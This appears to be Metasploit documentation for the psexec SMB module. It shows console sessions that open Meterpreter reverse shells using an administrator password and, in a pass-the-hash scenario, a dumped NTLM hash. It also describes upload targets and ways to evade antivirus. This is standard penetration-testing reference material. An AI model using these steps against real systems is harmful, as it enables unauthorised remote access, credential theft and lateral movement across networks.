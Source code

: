 `psexec` is one of the most popular exploits against Microsoft Windows.
It is a great way to test password security and demonstrate how a stolen
password could lead to a complete compromise of an entire corporate
network.

The Metasploit Framework actually includes different module types of
psexec for different scenarios. exploit/windows/smb/psexec is the father
of them all and is used the same way you normally would with any
Metasploit exploits.


## Vulnerable Application

To be able to use exploit/windows/smb/psexec:

1. You must have a valid username/password for a local Administrator account.
2. The firewall must allow SMB traffic.
3. The target must use SMBv1.
4. The remote Windows machine's network security policy must allow it.
   If you see [one of these errors][SMB-errors], then the Windows
   machine does not allow it.

## Verification Steps

At the minimum, you should be able use psexec to get a session with a
valid credential using the following:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass goodpass
SMBPass => goodpass
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \PTIhqIrQ.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \PTIhqIrQ.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1042) at 2016-03-01 16:51:56 -0600

meterpreter >
```

## Options

By default, using exploit/windows/smb/psexec can be as simple as setting the RHOST option, and you're ready to go. But in reality, you will probably need to at least configure:

**The SMBUser Option**

This is a valid Windows username.

**The SMBPass option**

This can be either the plain text version or the Windows hash.

## Scenarios


**Pass the Hash**

One common penetration testing scenario using psexec is that attackers usually begin by breaking into a box, dumping the hashes, and using some of those hashes to log into other boxes on the network using psexec. So in that scenario, with the following stolen hash:

```
meterpreter > hashdump
Administrator:500:e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f:::
```

You can simply copy and paste it to the SMBPass option in psexec and get a session without needing to crack the hash:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
SMBPass => e39baff0f2c5fd4e93e28745b8bf4ba6:f4974ee4a935ee160a927eafbb3f317f
msf exploit(psexec) > set RHOST 192.168.1.80
RHOST => 192.168.1.80
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 192.168.1.199:4444
[*] 192.168.1.80:445 - Connecting to the server...
[*] 192.168.1.80:445 - Authenticating to 192.168.1.80:445 as user 'Administrator'...
[*] 192.168.1.80:445 - Selecting native target
[*] 192.168.1.80:445 - Uploading payload...
[*] 192.168.1.80:445 - Created \QpxKDHyG.exe...
[+] 192.168.1.80:445 - Service started successfully...
[*] 192.168.1.80:445 - Deleting \QpxKDHyG.exe...
[*] Sending stage (957999 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.199:4444 -> 192.168.1.80:1043) at 2016-03-01 17:02:46 -0600

meterpreter >
```

**Automatic Target**

There are multiple targets available for exploit/windows/smb/psexec. The
Automatic target is the default target. If the Automatic target detects
Powershell on the remote machine, it will try Powershell, otherwise it
uses the native upload. Each target is explained below.

**Powershell Target**

The Powershell target forces the psexec module to run a Powershell
command with a payload embedded in it. Since this approach does not
leave anything on disk, it is a very powerful way to evade antivirus.
However, older Windows machines might not support Powershell by default.

Because of this, you will probably want to use the Automatic target
setting. The automatic mode will check if the target supports Powershell
before it tries it; the manually set Powershell target won't do that.

**Native Upload Target**

The Native target will attempt to upload the payload (executable) to
SYSTEM32 (which can be modified with the SHARE datastore option), and
then execute it with psexec.

This approach is generally reliable, but has a high chance of getting
caught by antivirus on the target. To counter this, you can try to use a
template by setting the EXE::Path and EXE::Template datastore options.
Or, you can supply your own custom EXE by setting the EXE::Custom
option.

**MOF Upload Target**

The [MOF][MOF] target technically does not use psexec; it does not
explicitly tell Windows to execute anything. All it does is upload two
files: the payload (exe) in SYSTEM32 and a managed object format file in
SYSTEM32\wbem\mof\ directory. When Windows sees the MOF file in that
directory, it automatically runs it. Once executed, the code inside the
MOF file basically tells Windows to execute our payload in SYSTEM32, and
you get a session.

Although it's a neat trick, Metasploit's MOF library only works against
Windows XP and Windows Server 2003. And since it writes files to disk,
there is also a high chance of getting caught by antivirus on the
target.

The best way to counter antivirus is still the same. You can either use
a different template by setting the EXE::Path and EXE::Template
datastore options or you can supply your own custom EXE by setting the
EXE::Custom option.


[SMB-errors]: https://github.com/rapid7/metasploit-framework/wiki/What-does-my-Rex%3A%3AProto%3A%3ASMB-Error-mean%3F
[MOF]: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows

